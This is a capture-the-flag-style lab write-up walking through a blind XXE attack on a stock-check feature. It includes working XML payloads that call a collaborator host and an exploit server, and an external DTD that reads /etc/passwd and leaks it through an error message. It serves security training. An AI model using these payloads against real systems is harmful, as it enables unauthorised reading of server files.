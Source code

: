 # Lab: Exploiting blind XXE to retrieve data via error messages

 This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the /etc/passwd file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD. 

# Step 1 Find XXE

I want to see if XXE using entity definition is possible on the product page, noting my collaborator's URL`the6wc6kafwtuy237hucjrdg67cy0ood.oastify.com` I will use the following XXE payload to test:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://the6wc6kafwtuy237hucjrdg67cy0ood.oastify.com"> %xxe;]>
```

I then locate a page passing XML:

![image](https://user-images.githubusercontent.com/83407557/210408647-55682818-6ef3-4fd1-89af-eb55ba435a9f.png)

And inject my payload:

![image](https://user-images.githubusercontent.com/83407557/210408857-33efe1ba-a8f1-48ba-a120-58e1c7e3b17d.png)

Polling my collaborator, I know that I've found XXE:

![image](https://user-images.githubusercontent.com/83407557/210409036-c53e0546-aaa0-4ef6-a19c-67d1ffa9f27d.png)

# Step 2 craft error based malicious DTD file

I am given an attack-server to use for this lab:

![image](https://user-images.githubusercontent.com/83407557/210409207-215e925e-3b79-41d0-bb24-dc6209247f6b.png)

I note the attack server URL for the page I will host DTD:
`https://exploit-0abe000b04492d3dc50763c101cc00c3.exploit-server.net/exploit`

I craft the following DTD file as the body parameter that will error with the /etc/passwd file contained within:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
I store this as the body on my attack-server page:

![image](https://user-images.githubusercontent.com/83407557/210409784-1c756552-882f-4103-aad7-fdf93e404c3d.png)


# Step 3 use XXE to execute DTD file on attack server

Payload with attack server DTD file URL:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0abe000b04492d3dc50763c101cc00c3.exploit-server.net/exploit"> %xxe;]>
```
I then inject the payload into the /product/stock page:

![image](https://user-images.githubusercontent.com/83407557/210410123-2a4456cf-ec43-47eb-b3c7-81442a0f2203.png)

# Step 4 Checking logs/history

Checking the server's access logs, I see that the /exploit was requested:

![image](https://user-images.githubusercontent.com/83407557/210410479-ca2c5346-0946-479d-96b6-7e8b11c0655d.png)

Checking the http history in burp, I see that the repsonse errored, and contains the /etc/passwd file:

![image](https://user-images.githubusercontent.com/83407557/210410751-a37ee004-3566-4092-a9d4-ad4a72b2840d.png)

Which solves the lab:

![image](https://user-images.githubusercontent.com/83407557/210410893-9c469d9e-39b8-4981-8982-225ee3a5d8da.png)


